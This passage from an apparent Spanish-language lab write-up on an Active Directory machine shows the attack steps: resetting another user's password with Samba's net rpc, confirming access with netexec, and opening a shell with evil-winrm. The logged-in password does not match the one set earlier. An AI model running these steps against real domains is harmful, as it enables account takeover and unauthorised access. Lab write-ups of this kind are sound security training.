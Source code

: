 <img src="/assets/images/THL-writeup-blackGold/Captura11.png">
</p>

Necesitamos utilizar la herramienta **net** que es de **Samba** para poder cambiar la contraseña del usuario.

Únicamente copiamos el comando en nuestro kali y lo modificamos para agregar la contraseña de **emma.johnson**:
```bash
net rpc password "thomas.brown" "newP@ssword2022" -U "neptune.thl"/"emma.johnson"%"contraseña_emma.johnson" -S "192.168.56.10"
```
Listo.

Comprobemos si funcionó con **netexec**:
```bash
netexec winrm 192.168.56.10 -u 'thomas.brown' -p 'newP@ssword2022' 
WINRM       192.168.56.10   5985   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:neptune.thl)
WINRM       192.168.56.10   5985   DC01             [+] neptune.thl\thomas.brown:newP@ssword2022 (Pwn3d!)
```

Ahora nos logueamos como este usuario:
```batch
evil-winrm -i 192.168.56.10 -u 'thomas.brown' -p 'Hackeado123!'
Evil-WinRM shell v3.7
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
.
*Evil-WinRM* PS C:\Users\thomas.brown\Documents> whoami
neptune\thomas.brown
```
Estamos dentro.

